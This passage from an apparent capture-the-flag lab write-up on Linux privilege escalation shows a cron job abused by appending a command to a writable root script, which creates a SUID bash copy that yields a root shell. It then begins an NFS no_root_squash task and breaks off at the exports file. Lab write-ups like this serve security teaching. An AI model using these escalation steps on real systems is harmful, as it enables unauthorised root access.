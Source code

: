 No Answer

## TASK 18 : Privilege Escalation - Cron (File Overwrite)
### Click 'Completed' once you have successfully elevated the machine 
The "overwrite.sh" file from the crontab is writable by our current user so we can abuse it :

```console
TCM@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

TCM@debian:~$ ls -l overwrite.sh 
-rwxr-xr-x 1 TCM user 43 Apr 18 09:29 overwrite.sh
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
TCM@debian:~$ ls /tmp
backup.tar.gz  bash  nginxrootsh  service  service.c  useless  x.so
TCM@debian:~$ /tmp/bash -p
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# 
```
{: .nolineno }

No Answer

## TASK 19 : Privilege Escalation - NFS Root Squashing 
### Click 'Completed' once you have successfully elevated the machine 

From the output, notice that “no_root_squash” option is defined for the “/tmp” export. 

```console
CM@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

```